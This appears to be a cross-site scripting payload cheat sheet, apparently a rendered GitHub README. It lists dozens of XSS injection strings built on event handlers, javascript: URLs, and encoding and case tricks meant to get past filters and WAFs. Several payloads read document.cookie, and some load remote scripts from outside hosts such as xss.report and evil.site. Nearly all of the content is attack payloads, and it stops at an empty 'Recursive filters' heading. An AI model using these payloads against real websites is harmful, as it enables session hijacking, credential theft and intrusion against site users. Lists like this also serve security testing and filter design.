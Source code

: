 ```html
<h1 onmouseover="alert('karem')" style="color: red;">karem</h1> 
"><button%20popovertarget=x>Click%20me</button>%20<input%20type="hidden"%20value="y"%20popover%20id=x%20onbeforetoggle=alert(document.cookie)> 
"><a href="javascript:alert('xss')">clickme</a>
<svg onload=prompt%26%230000000040document.domain)> 
 '"><script>alert('karem')</script>@gmail.com 
%0Dalert`1`// 
"<script>alert</script>"@gmail.com 
"><img src=1 OnErRoR=alert('xss')> 
'"><script src=https://xss.report/c/karemelsqary74></script> 
"><svg/onload=alert.bind()(document.domain)> 
'`><\x00img src=xxx:x onerror=javascript:alert(1)> 
'"><<Svg/Only=1/OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>

# h0tak88r
<style>*{background-image:url('\\\\6A\\\\61\\\\76\\\\61\\\\73\\\\63\\\\72\\\\69\\\\70\\\\74\\\\3A\\\\61\\\\6C\\\\65\\\\72\\\\74\\\\28\\\\6C\\\\6F\\\\63\\\\61\\\\74\\\\69\\\\6F\\\\6E\\\\29')}</style>
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%22%58%53%53%22%29%3C%2F%73%63%72%69%70%74%3E
[̕h+͓.＜script/src=//evil.site/poc.js>.͓̮̮ͅ=sW&͉̹̻͙̫̦̮̲͏̼̝̫́̕
"><input/onauxclick="[1].map(prompt)">
<img src=x onerror=eval(atob('YWxlcnQoJ0kgb25seSB3cml0ZSBsYW1lIFBvQ3MnKQ==')) />
'"--><Body onbeforescriptexecute="[1].map(confirm)">
'-prompt.call(window, 'xss')-'
<svg+onload=innerHTML=URL,outerHTML=textContent>#&ltimg/src/onerror=alert(domain)&gt
<img src=x onVector=X-Vector onerror=alert(1)>
%2sscript%2ualert()%2s/script%2u
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
toString=\\\\u0061lert;window+' '
aaaaa<h1 onclick=alert(1)>test
<noscript><p title="</noscript><img src=x onerror=alert(document.domain)>">
" onfocus="alert(1)" autofocus="
"><img src=x onODYSsyi=1 onerror=alert(document.cookie)>



# Quick Defense:
<input type="search" onsearch="aler\\\\u0074(1)">
<details ontoggle="aler\\\\u0074(1)">

# IMG_error
<img onerror="location='javascript:=lert(1)'" src="x">
<img onerror="location='javascript:%61lert(1)'" src="x">
<img onerror="location='javascript:\\x2561lert(1)'" src="x">
<img onerror="location='javascript:\\x255Cu0061lert(1)'" src="x" >

# Unicode + HTML
<svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>

# URL
<a href="javascript:x='%27-alert(1)-%27';">XSS</a>

# Hex
<script>eval('\\\\x61lert(1)')</script>

# Only lowercase block
<sCRipT>alert(1)</sCRipT>

# Break regex
<script>%0aalert(1)</script>

# Recursive filters
```